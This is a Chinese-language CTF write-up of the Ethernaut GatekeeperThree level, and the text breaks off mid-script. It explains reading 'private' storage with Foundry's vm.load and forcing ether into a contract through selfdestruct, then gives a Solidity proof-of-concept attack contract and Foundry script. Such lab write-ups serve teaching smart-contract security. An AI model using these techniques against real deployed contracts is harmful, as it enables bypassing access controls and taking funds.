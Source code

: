    我们知道链上数据都是公开可读的，不存在真正的 private，理解[slot](https://learnblockchain.cn/docs/solidity/internals/layout_in_storage.html)的概念和状态变量在储存中的布局，我们一旦知道合约地址和变量对应 slot，就可以读取任意变量。

   foundry 提供了通过 slot 读取变量的方法，vm.load(address,slot)。

3. gateThree
   gateThree 要求合约的余额大于 0.001 ether。
   首先，了解常见转账方式有`send`,`transfer`,`call{value:value}()`，使用这些方式对合约进行转账需要对方合约有 fallback 和 receive 函数，而通过阅读 GateKeeperOne 合约发现其中并没有这两个函数，还有什么方式还能向合约进行转 eth 呢？
   1. 合约可以通过`selfdestruct(address payable recipient)`来销毁合约，并把合约余额转账给 recipient；
   2. 矿工(现在是 builder 和 proposer)接收区块奖励，将奖励地址设置为合约地址。
      这块我们选择较为简单的方式，通过`selfdestruct(address payable recipient)`来销毁合约。

## Proof of Concept

根据以上分析，完整的 PoC 代码如下：

```
contract Attack {
    address public target;
    constructor(address _target){
        target = _target;
    }

    function StepOne() public {
        (bool success,) = target.call(abi.encodeWithSignature("construct0r()"));
        require(success, "Failed to call construct0r");
    }

    function stepTwo() public {
        (bool success,) = target.call(abi.encodeWithSignature("enter()"));
        require(success, "Failed to call enter");
    }
}

contract Self {
    function attack(address _victim) public{
        selfdestruct(payable(_victim));
    }

    receive() external payable {}
}

contract GatekeeperThreeTest is BaseTest {
    GatekeeperThree gatekeeperThree = GatekeeperThree(contractAddress);
    // GatekeeperThree gatekeeperThree = new GatekeeperThree();

    function run() external {
        vm.startBroadcast(deployer);
        Attack attack = new Attack(contractAddress);
        gatekeeperThree.createTrick();
        SimpleTrick trick = gatekeeperThree.trick();

        // gateOne
        attack.StepOne();

        // gateTwo
        uint _password = uint(vm.load(address(trick), bytes32(uint256(2))));
        gatekeeperThree.getAllowance(_password);
        assert(gatekeeperThree.allowEntrance() == true);

        // gateThree
        Self self = new Self();
        address(self).call{value: 0.001001 ether}("");
        self.attack(address(gatekeeperThree));
```